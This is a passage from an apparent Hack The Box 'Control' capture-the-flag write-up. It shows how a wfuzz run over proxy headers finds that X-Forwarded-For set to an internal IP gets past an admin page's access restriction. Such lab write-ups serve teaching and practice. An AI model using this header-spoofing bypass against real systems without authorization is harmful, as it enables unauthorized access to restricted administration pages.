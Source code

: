 ![](/assets/images/htb-writeup-control/mozilla.png)

`/admin.php` says its request need to go through `proxy`. So, we'll add this Headers along with the `IP` address we found and make request to the website. We'll automate this process using `wfuzz`.
```
$ cat headers.txt 
Forwarded
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Proto
Via
```
```
$ wfuzz -u http://10.10.10.167/admin.php -H FUZZ:192.168.4.28 -w headers.txt --hl 0

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.167/admin.php
Total requests: 5

===================================================================
ID           Response   Lines    Word     Chars       Payload                                
===================================================================

000000002:   200        153 L    466 W    7933 Ch     "X-Forwarded-For"                      

```
`X-Forwarded-For: 192.168.4.28` gave us `HTTP 200` . Adding this header manually and navigating to `/admin.php` provides us with a `Product catalog` page. Where we've list of products we can modify and search them.
